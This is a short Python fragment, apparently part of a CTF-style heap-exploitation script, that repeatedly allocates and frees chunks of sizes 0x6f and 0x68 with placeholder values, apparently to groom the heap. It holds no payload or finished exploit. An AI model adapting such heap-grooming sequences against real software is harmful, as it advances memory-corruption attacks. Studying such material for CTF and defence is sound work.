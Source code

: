 ```python

for i in range(0,3):
    delete(i)
#delete(4)
delete(5)
#delete(6)
for i in range(7,8):
    delete(i)
delete(10)
delete(11)
delete(12)
#delete(13)
#delete(14)

#raw_input()

#add(0x6f,p64(0x1234))

add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
add(0x6f,p64(0x1234))
#add(0x58,p64(0x1234))
#add(0x48,p64(0x1234))

for i in range(0,4):
        delete(i)
delete(5)
for i in range(7,10):
        delete(i)
delete(10)
delete(11)
delete(12)
#delete(13)
#delete(14)

add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
add(0x68,p64(0x1234))
#add(0x68,p64(0x1234))
#add(0x48,p64(0x1234))



for i in range(0,3):
        delete(i)
delete(5)
#delete(6)
for i in range(7,8):
        delete(i)
delete(10)
```